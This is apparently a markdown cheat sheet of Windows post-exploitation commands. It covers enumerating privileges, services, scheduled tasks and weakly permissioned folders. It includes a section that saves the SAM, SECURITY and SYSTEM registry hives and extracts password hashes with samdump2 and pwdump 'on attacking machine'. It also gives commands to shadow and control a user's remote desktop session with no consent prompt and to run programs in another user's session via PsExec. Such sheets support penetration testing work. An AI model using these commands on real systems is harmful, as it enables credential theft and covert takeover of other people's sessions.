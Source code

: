 #### tasklist run by current user

```tasklist -v```

-----


#### accesschk

*https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account?redirectedfrom=MSDN*

```accesschk.exe /accepteula -qwcu "Authenticated Users" *```

-----


#### firewall

```netsh firewall show state```

```netsh firewall show config```

-----


#### privs

```whoami /priv```

-----


#### scheduled tasks

```schtasks /query /fo list /v```

-----


#### file privs

```dir file.txt /s /p```

```icacls "c:\program files\whatever"```

-----


#### wmic

```wmic useraccount get name,sid```

```cmd /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """'```

-----


#### SAM dump

*SAM file: C:\Windows\system32\config*

*backup SAM reg key*

```reg save hklm\sam sam.save```

*backup security reg key*

```reg save hklm\security security.save```

*backup system reg key*

```reg save hklm\system system.save```

*On attacking machine:*

```samdump2 system.save sam.save```

```pwdump system.save sam.save```

-----


#### show files and folders in "Program Files" with (F)ull permissions set for "Everyone"

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```

-----


#### show files and folders in "Program Files" with (F)ull permissions set for "BUILTIN\Users"

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 
```

-----


#### reboot remote machine

```
shutdown /m \\DEV /r /t 1
```

-----


#### query remote desktop sessions

```
qwinsta /server:remote.host
```

```
query session /server:dev
```

-----


#### remote desktop, control session, no consent prompt

```
mstsc /v:DEV /shadow:2 /noConsentPrompt /control
```

-----


#### run notepad in logged in session ID 2

```
PsExec.exe -i 2 \\REMOTEMACHINE notepad
```

-----


#### run chrome browser, navigate to youtube in logged in session ID 2

```
psexec \\dev -i 2 "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" "https://www.youtube.com"
```

-----


